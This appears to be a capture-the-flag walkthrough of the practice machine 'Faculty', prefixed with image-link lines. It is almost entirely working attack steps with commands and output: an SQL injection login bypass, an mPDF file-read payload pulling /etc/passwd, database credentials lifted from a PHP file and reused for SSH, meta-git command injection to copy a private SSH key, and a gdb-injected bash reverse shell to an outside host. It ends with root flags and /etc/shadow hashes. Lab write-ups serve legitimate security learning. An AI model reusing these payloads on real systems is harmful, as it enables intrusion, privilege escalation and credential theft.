







USER
Step 1
nmap:
➜ faculty nmap -Pn -n -p- 10.10.11.169
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
➜ faculty nmap -Pn -n -p22,80 -sCV 10.10.11.169
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 e9:41:8c:e5:54:4d:6f:14:98:76:16:e7:29:2d:02:16 (RSA)
| 256 43:75:10:3e:cb:78:e9:52:0e:eb:cf:7f:fd:f6:6d:3d (ECDSA)
|_ 256 c1:1c:af:76:2b:56:e8:b3:b8:8a:e9:69:73:7b:e6:f5 (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://faculty.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerneldirb:
==> DIRECTORY: http://faculty.htb/admin/- http://10.10.11.169 forwards to http://faculty.htb, add to
/etc/hosts
Testing a Faculty ID we see in Burp that it’s vulnerable to SQL Injection. 

Look for a authentication bypass variable.
Request: id_no=1337'
Response: 3
Request: id_no=1337'or 1=1#
Response: 1Test id_no=1337'or 1=1# as Faculty ID on the webpage and we successfully bypass the login mechanism and are met with a scheduling system for user Smith, John C. 
We can’t do anything, to my knowledge, on this scheduling system but if we visit http://faculty.htb/admin our PHPSESSID cookie is carried over and we login as use Smith, John C. Looking around the page we find Faculty List containing two other users; Blake Claire G, cblake@faculty.htb and James, Eric P, ejames@faculty.htb as well as John’s email address jsmith@faculty.htb with their corresponding ID No.

Fuzzing the URL parameter we find a new end point, users:
➜ byp4xx git:(main) ✗ ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://faculty.htb/admin/index.php\?page\=FUZZ -b "PHPSESSID=6nhsugkb63bt2hf68uf76c846d" -fw 2641
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v1.5.0 Kali Exclusive <3
________________________________________________
:: Method : GET
:: URL : http://faculty.htb/admin/index.php?page=FUZZ
:: Wordlist : FUZZ: /usr/share/wordlists/dirb/big.txt
:: Header : Cookie: PHPSESSID=6nhsugkb63bt2hf68uf76c846d
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200,204,301,302,307,401,403,405,500
:: Filter : Response words: 2641-2645
________________________________________________
courses [Status: 200, Size: 20137, Words: 2007, Lines: 534, Duration: 35ms]
faculty [Status: 200, Size: 19455, Words: 1953, Lines: 534, Duration: 35ms]
schedule [Status: 200, Size: 16477, Words: 2273, Lines: 517, Duration: 53ms]
subjects [Status: 200, Size: 21202, Words: 2008, Lines: 548, Duration: 69ms]
users [Status: 200, Size: 12514, Words: 1685, Lines: 386, Duration: 97ms]
Here we find user admin. We are unable to edit the user, nor can we create a new user by pressing the blue button (nothing happens). Looking in the source code it seems to be connected to manage_users.php but all actions are cropped.
<script>
$('table').dataTable();
$('#new_user').click(function(){
uni_modal('New User','manage_user.php')
})
$('.edit_user').click(function(){
uni_modal('Edit User','manage_user.php?id='+$(this).attr('data-id'))
})Changing tracks - we are able to export “Course List”, “Subject List” and “Faculty List” as PDF. Testing to generate one we find that it’s a simple POST request to /admin/download.php with a huge base64 blob as payload.
Analyzing the payload it’s base64 encoded > url encoded > url encoded:
<h1><a name="top"></a>faculty.htb</h1><h2>Subjects</h2><table> <thead> <tr> <th class="text-center">#</th> <th class="text-left">Subject</th> <th class="text-left">Description</th> </tr></thead><tbody><tr><td class="text-center">1</td><td class="text-center"><b>DBMS</b></td><td class="text-center"><small><b>Database Management System</b></small></td></tr><tr><td class="text-center">2</td><td class="text-center"><b>Mathematics</b></td><td class="text-center"><small><b>Mathematics</b></small></td></tr><tr><td class="text-center">3</td><td class="text-center"><b>English</b></td><td class="text-center"><small><b>English</b></small></td></tr><tr><td class="text-center">4</td><td class="text-center"><b>Computer Hardware</b></td><td class="text-center"><small><b>Computer Hardware</b></small></td></tr><tr><td class="text-center">5</td><td class="text-center"><b>History</b></td><td class="text-center"><small><b>History</b></small></td></tr></tboby></table>Can we exploit this by editing the content somehow?
Step 2
Download a PDF and analyze it using exiftool and we find it’s created using mPDF 6.0:
➜ faculty exiftool OKYKcSDLWNQjVuybnHRm0XG6vr.pdf
ExifTool Version Number : 12.44
File Name : OKYKcSDLWNQjVuybnHRm0XG6vr.pdf
Directory : .
File Size : 1781 bytes
File Modification Date/Time : 2022:08:26 09:47:42+02:00
File Access Date/Time : 2022:08:26 09:48:08+02:00
File Inode Change Date/Time : 2022:08:26 09:47:57+02:00
File Permissions : -rw-r--r--
File Type : PDF
File Type Extension : pdf
MIME Type : application/pdf
PDF Version : 1.4
Linearized : No
Page Count : 1
Page Layout : OneColumn
Producer : mPDF 6.0
Create Date : 2022:08:26 08:46:03+01:00
Modify Date : 2022:08:26 08:46:03+01:00Googling for mPDF exploits we find this LFI python script that helps us create a base64 payload to be sent to the victim. As a PoC try to grab /etc/passwd:
➜ faculty ./mpdf-lfi.py
File >> /etc/passwd
[+] Replace the content with the payload below
Url encoded payload:
%3Cannotation%20file%3D%22/etc/passwd%22%20content%3D%22/etc/passwd%22%20icon%3D%22Graph%22%20title%3D%22Attached%20File%3A%20/etc/passwd%22%20pos-x%3D%22195%22%20/%3E
Base64 encoded payload:
JTNDYW5ub3RhdGlvbiUyMGZpbGUlM0QlMjIvZXRjL3Bhc3N3ZCUyMiUyMGNvbnRlbnQlM0QlMjIvZXRjL3Bhc3N3ZCUyMiUyMGljb24lM0QlMjJHcmFwaCUyMiUyMHRpdGxlJTNEJTIyQXR0YWNoZWQlMjBGaWxlJTNBJTIwL2V0Yy9wYXNzd2QlMjIlMjBwb3MteCUzRCUyMjE5NSUyMiUyMC8lM0U=Send the base64 payload with Burp to create a new pdf. 
Add the filename to the base URL http://faculty.htb/mpdf/tmp/ do see the PDF. In the left corner you’ll see a green dot indicator on the sidebar, press it got to “Show Attachments” and download the file passwd. 
➜ faculty cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:112:117:MySQL Server,,,:/nonexistent:/bin/false
gbyolo:x:1000:1000:gbyolo:/home/gbyolo:/bin/bash
postfix:x:113:119::/var/spool/postfix:/usr/sbin/nologin
developer:x:1001:1002:,,,:/home/developer:/bin/bash
usbmux:x:114:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologinWe got LFI!
Step 3
Lets see if we can find any sensitive files; id_rsa would be optimal but we aren’t able to access either gbyolo or developer’s. We can start to look for any files containing the database connection and hopefully be able to extract credentials from there. Start by grabbing manage_user.php that we found earlier, and the very top gives us the database connection file; db_connect.php.
<?php
include('db_connect.php');
session_start();
if(isset($_GET['id'])){
$user = $conn->query("SELECT * FROM users where id =".mysql_real_escape_string($_GET['id']));
foreach($user->fetch_array() as $k =>$v){
$meta[$k] = $v;
}
}
?>Download db_connect.php and bingo, we got a password!
<?php
$conn= new mysqli('localhost','sched','Co.met06aci.dly53ro.per','scheduling_db')or die("Could not connect to mysql".mysqli_error($con));Try to login with found password against user gbyolo and/or developer:
gbyolo@faculty:~$ id && cat user.txt
uid=1000(gbyolo) gid=1000(gbyolo) groups=1000(gbyolo)
cat: user.txt: No such file or directoryWe don’t have user.txt right yet, but we can confirm that gbyolo:Co.met06aci.dly53ro.per is correct and we have a foothold on the victim.
Step 4
Pivot! Start with usual sudo -l
gbyolo@faculty:~$ sudo -l
[sudo] password for gbyolo:
Matching Defaults entries for gbyolo on faculty:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User gbyolo may run the following commands on faculty:
(developer) /usr/local/bin/meta-gitWe’re able to run /usr/local/bin/meta-git as user developer, seems fitting and what we should use to pivot. Reading about meta-git there is a RCE due to lack of input formating.
Lets try a simple PoC and create a file named test:
gbyolo@faculty:/dev/shm$ ls -al
total 0
drwxrwxrwt 3 root root 60 Aug 26 10:41 .
drwxr-xr-x 18 root root 3940 Aug 26 08:00 ..
drwx------ 4 root root 80 Aug 26 08:00 multipath
gbyolo@faculty:/dev/shm$ sudo -u developer /usr/local/bin/meta-git clone 'exploit.se||touch test'
meta git cloning into 'exploit.se||touch test' at exploit.se||touch test
exploit.se||touch test:
fatal: repository 'exploit.se' does not exist
exploit.se||touch test ✓
(node:8010) UnhandledPromiseRejectionWarning: Error: ENOENT: no such file or directory, chdir '/dev/shm/exploit.se||touch test'
at process.chdir (internal/process/main_thread_only.js:31:12)
at exec (/usr/local/lib/node_modules/meta-git/bin/meta-git-clone:27:11)
at execPromise.then.catch.errorMessage (/usr/local/lib/node_modules/meta-git/node_modules/meta-exec/index.js:104:22)
at process._tickCallback (internal/process/next_tick.js:68:7)
at Function.Module.runMain (internal/modules/cjs/loader.js:834:11)
at startup (internal/bootstrap/node.js:283:19)
at bootstrapNodeJSCore (internal/bootstrap/node.js:623:3)
(node:8010) UnhandledPromiseRejectionWarning: Unhandled promise rejection. This error originated either by throwing inside of an async function without a catch block, or by rejecting a promise which was not handled with .catch(). (rejection id: 1)
(node:8010) [DEP0018] DeprecationWarning: Unhandled promise rejections are deprecated. In the future, promise rejections that are not handled will terminate the Node.js process with a non-zero exit code.
gbyolo@faculty:/dev/shm$ ls -al
total 0
drwxrwxrwt 3 root root 100 Aug 26 11:00 .
drwxr-xr-x 18 root root 3940 Aug 26 08:00 ..
-rw-rw-r-- 1 developer developer 0 Aug 26 11:00 exploit.se
drwx------ 4 root root 80 Aug 26 08:00 multipath
-rw-rw-r-- 1 developer developer 0 Aug 26 11:00 testNow weaponize and steal id_rsa:
gbyolo@faculty:/dev/shm$ sudo -u developer /usr/local/bin/meta-git clone 'exploit.se||cp /home/developer/.ssh/id_rsa . && chmod 777 id_rsa'
meta git cloning into 'exploit.se||cp /home/developer/.ssh/id_rsa . && chmod 777 id_rsa' at id_rsa . && chmod 777 id_rsa
id_rsa . && chmod 777 id_rsa:
fatal: destination path 'exploit.se' already exists and is not an empty directory.
chmod: changing permissions of '.': Operation not permitted
id_rsa . && chmod 777 id_rsa: command 'git clone exploit.se||cp /home/developer/.ssh/id_rsa . && chmod 777 id_rsa id_rsa . && chmod 777 id_rsa' exited with error: Error: Command failed: git clone exploit.se||cp /home/developer/.ssh/id_rsa . && chmod 777 id_rsa id_rsa . && chmod 777 id_rsa
(node:8146) UnhandledPromiseRejectionWarning: Error: ENOENT: no such file or directory, chdir '/dev/shm/id_rsa . && chmod 777 id_rsa'
at process.chdir (internal/process/main_thread_only.js:31:12)
at exec (/usr/local/lib/node_modules/meta-git/bin/meta-git-clone:27:11)
at execPromise.then.catch.errorMessage (/usr/local/lib/node_modules/meta-git/node_modules/meta-exec/index.js:104:22)
at process._tickCallback (internal/process/next_tick.js:68:7)
at Function.Module.runMain (internal/modules/cjs/loader.js:834:11)
at startup (internal/bootstrap/node.js:283:19)
at bootstrapNodeJSCore (internal/bootstrap/node.js:623:3)
(node:8146) UnhandledPromiseRejectionWarning: Unhandled promise rejection. This error originated either by throwing inside of an async function without a catch block, or by rejecting a promise which was not handled with .catch(). (rejection id: 2)
(node:8146) [DEP0018] DeprecationWarning: Unhandled promise rejections are deprecated. In the future, promise rejections that are not handled will terminate the Node.js process with a non-zero exit code.
gbyolo@faculty:/dev/shm$ ls -al
total 4
drwxrwxrwt 3 root root 120 Aug 26 11:03 .
drwxr-xr-x 18 root root 3940 Aug 26 08:00 ..
-rw-rw-r-- 1 developer developer 0 Aug 26 11:00 exploit.se
-rwxrwxrwx 1 developer developer 2602 Aug 26 11:03 id_rsa
drwx------ 4 root root 80 Aug 26 08:00 multipath
-rw-rw-r-- 1 developer developer 0 Aug 26 11:00 testLogin and grab user.txt:
➜ faculty vim developer-id_rsa
➜ faculty chmod 400 developer-id_rsa
➜ faculty ssh developer@faculty.htb -i developer-id_rsa
developer@faculty:~$ id && cat user.txt
uid=1001(developer) gid=1002(developer) groups=1002(developer),1001(debug),1003(faculty)
904b8c9a6982c444e519674b88a31b25ROOT
Step 1
As seen from id user developer is part of group debug, this is interesting. See if there are any files owned by group debug:
developer@faculty:/$ find / -group debug 2> /dev/null
/usr/bin/gdbWith GDB we can attach different processes and dump their memory, in hope of finding credentials.
gdb -p <FTP_PROCESS_PID>
(gdb) info proc mappings
(gdb) q
(gdb) dump memory /tmp/<name>.mem <START_HEAD> <END_HEAD>
(gdb) q
strings /tmp/<name>.memTrying to dump a lot of processes I find nothing and decide to continue looking for other ways to use gdb.
After a while I come across this information from HackTricks:
“If GDB is installed (or you can install it with
apk add gdborapt install gdbfor example) you can debug a process from the host and make it call thesystemfunction. (This technique also requires the capabilitySYS_ADMIN).”
With this example attached to it:
gdb -p 1234
(gdb) call (void)system("ls")
(gdb) call (void)system("sleep 5")
(gdb) call (void)system("bash -c 'bash -i >& /dev/tcp/192.168.115.135/5656 0>&1'")“Linux Capabilities are used to allow binaries (executed by non-root users) to perform privileged operations without providing them all root permissions. This model allows the binary or program to grant specific permissions to perform privileged operations rather than giving them root privileges by granting setuid, setguid or sudo without a password.”
developer@faculty:~$ getcap $(which gdb)
/usr/bin/gdb = cap_sys_ptrace+epWith found cabability, ptrace, the current user can attach to other processes and trace their system calls. Testing to attach to a bunch of different services I get this error when trying to call system function:
(gdb) call (void)system("id")
No symbol "system" in current context.However, I find one process that do work and we’re able to get a reverse shell as root!
developer@faculty:/dev/shm$ ps aux | grep root
[... snip ...]
root 733 0.0 0.9 26896 18172 ? Ss 08:00 0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
developer@faculty:/dev/shm$ gdb -p 733
[... snip ...]
(gdb) call (void)system("bash -c 'bash -i >& /dev/tcp/10.10.14.4/4488 0>&1'")
[Detaching after vfork from child process 49752]
➜ faculty nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.169] 57988
bash: cannot set terminal process group (733): Inappropriate ioctl for device
bash: no job control in this shell
root@faculty:/# id && cat /root/root.txt
uid=0(root) gid=0(root) groups=0(root)
b8a6c75d466c5979b9886556151f2866
cat /etc/shadow
root:$6$CiEa.wxtUKxG5q21$ED3MTE6ehz0j0q4kRQfK4bnLQFLZDrG9skIPsc0p2/X3JSBHFWjRWAZwEdUpqON6UqZOXvme7.1wHzNCVHqk9/:18559:0:99999:7:::
gbyolo:$6$ccGHy1FmLiRRtdRO$8YUhXxCWlUNP7/VSch6vqb3aEMs4j/ncGyPCObyl9rS8C/ZDiC4.NOXAb0B1cuMir0ilQK.IDWFjDEryXV5fx1:19165:0:99999:7:::
developer:$6$oY/UDfRNf0UfWpGG$PUFSZoqX4AM1igh7RFTCLRnbs4Qi19jdqOMeZWBIwnkVS//6iyRbNaY/ZFcNoCFDMfdgAlnA4C7EiPRV9Ayvc.:18559:0:99999:7:::